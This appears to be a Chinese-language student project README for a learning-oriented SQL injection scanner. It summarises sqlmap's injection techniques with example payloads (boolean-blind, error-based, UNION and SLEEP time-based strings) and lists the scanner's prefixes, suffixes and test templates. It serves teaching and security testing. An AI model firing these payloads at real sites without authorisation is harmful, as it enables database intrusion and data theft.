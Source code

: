 ## Web Vulnerability Scanner:SQL
- 组员：郑文艺，吴欣玙，吕萌
### 目的：熟悉SQL漏洞等常见Web漏洞原理，重点不在效率和使用，如果正八经儿检测，sqlmapapi甚至是各种工具就方便快捷
## 实现功能
1. 针对SQL注入漏洞、SQL盲注
2. 通过匹配报错出来的信息，可以正则判断出所用的数据库

## SQL注入总结（根据sqlmap）
## 注入方式
## 1. B: Boolean-based blind SQL injection（布尔型注入）<br>
### `Title: AND boolean-based blind - WHERE or HAVING clause`<br>
### `Payload: user=user1' AND 4676=4676 AND 'ZzOn'='ZzOn`
## 2. E: Error-based SQL injection（报错型注入）<br>
###  ` Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)`<br>
###  `Payload: user=user1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b786b71,(SELECT (ELT(7994=7994,1))),0x717a787871,0x78))s), 8446744073709551610, 8446744073709551610))) AND 'XSuv'='XSuv`
## 3. U: UNION query SQL injection（可联合查询注入）<br>
###  `Title: Generic UNION query (NULL) - 2 columns`<br>
###  `Payload: user=user1' UNION ALL SELECT CONCAT(0x716b786b71,0x6a6a6668724d514d5448686874774f486d634550735659727866554e65554e4e4f55504146706471,0x717a787871),NULL-- QvWZ`
## 4. S: Stacked queries SQL injection（可多语句查询注入）
## 5. T: Time-based blind SQL injection（基于时间延迟注入）<br>
###  `Title: MySQL >= 5.0.12 AND time-based blind`<br>
###  `Payload: user=user1' AND SLEEP(5) AND 'EJXX'='EJXX`
## 6. Q: inline_query(内联查询)


    
## SQL漏洞扫描代码实现
## ![avatar](https://github.com/GPSWiFi/SQL-injection/blob/master/1.png?raw=true)
## ![avatar](https://github.com/GPSWiFi/SQL-injection/blob/master/2.png?raw=true)
## 1. 判断注入位置：
  - 判断GET,POST方法:<br>GET, POST = "GET", "POST"                           
  - HTTP报文的头部字段——>设置Cookie、User-Agent、Referer:<br> COOKIE, UA, REFERER  = "Cookie", "User-Agent", "Referer"  
## 2. 前缀PREFIXES:
### PREFIXES = (" ", ") ", "' ", "') ", "\"")  
## 3. 后缀SUFFIXES:
### SUFFIXES = ("", "-- -", "#")     
## 4. 参数 :
### BOOLEAN_TESTS = ("AND %d=%d", "OR NOT (%d=%d)")  

## 谢谢大家

